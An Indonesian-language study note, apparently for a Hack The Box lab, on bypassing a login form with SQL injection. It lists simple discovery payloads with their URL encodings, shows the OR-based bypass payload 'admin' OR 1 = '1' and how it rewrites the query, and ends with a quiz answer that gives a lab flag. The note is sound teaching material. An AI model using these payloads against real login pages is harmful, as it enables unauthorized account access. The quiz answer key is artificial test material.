





Katakan kita ingin mem-bypass login page menggunakan SQL Injection



Query untuk login yang umum kita telah ketahui adalah seperti dibawah ini

```sql
SELECT * FROM logins WHERE username='admin' AND password = 'p@ssw0rd';
```

## SQLi Discovery
Sebelum kita mencoba untuk menembus logika pada web aplikasi dan mencoba untuk menerobos autentikasi, perta kita harus menguji apakah form login tersebut rentan terhadap SQL injection atau tidak. Untuk itu kita dapat mencoba menggunakan beberapa payloads dibawah ini.


|Payload| URL Encoded|
| :----: | :------: |
| `'`| 	`%27`|
| `"` |	`%22`|
| `#` |	`%23`|
| `;` |	`%3B`|
| `)` |	`%29`|


!!! note
    Pada kasus tertentu, kita mungking harus menggunakan versi URL encoded ketika mengirim payload. Sebagai contoh ketika kita mengirim payload langsung pada URL,HTTP GET request.


Mari kita coba kirim payload menggunakan karakter `'`, sehingga query yang akan dijalankan Sql adalah

```sql
SELECT * FROM logins WHERE username=''' AND password = '';
```


!!! quote "POC"
    === "Sent payload"
        

    === "Respone payload"
        

Berdasrkan hasil payload diatas dapat kita simpulkan form login tersebut rentan terhadap SQL injection.

## OR Injection
Agar berhasil masuk dengan mem-bypass login form, kita harus memaskan nilai masukan pada form yang mana harus mengeluarkan hasil True pada query. Kita bisa menggunakan statement OR. Katakan kita mamasukan payload `admin' OR 1 = '1` sehingga query nya menjadi

```sql
SELECT * FROM logins WHERE username='admin' OR 1 = '1' AND password = '';
```

Satement `#!sql AND` lebih dahulu di eksekusi, selanjutnya statement `#!sql OR`. Karena logic `1 = '1'` berniali true maka hasil dari query tersebut selalu bernilai `True` walaupun nilai password tidak kita ketahui atau kita isi dengan nilai asal.

!!! quote "POC"
    === "Sent payload"
        

    === "Respone payload"
        


## Quiz
!!! quote "question"
    Try to log in as the user 'tom'. What is the flag value shown after you successfully log in? 

    > Janga lupa untuk menggunakan `Openvpn` dan spawn target di HTB

    ??? question "Jawaban"
        
        Ingat kita telah mengetahui sql query (namun pada real life kita tidak mengetahui query login atau query yang mau kita injek seperti apa) login form tersebut;

        ```sql
        SELECT * FROM logins WHERE username='' AND password = '';
        ```

        Kita bisa menggunaka pyload `tom' OR 1 = '1` yang membuat query menjadi

        ```sql
        SELECT * FROM logins WHERE username='tom' OR 1 = '1' AND password = '';
        ```

        Oke akhirnya kita mendapatkan flag 

        ```
        202a1d1a8b195d5e9a57e434cc16000c
        ```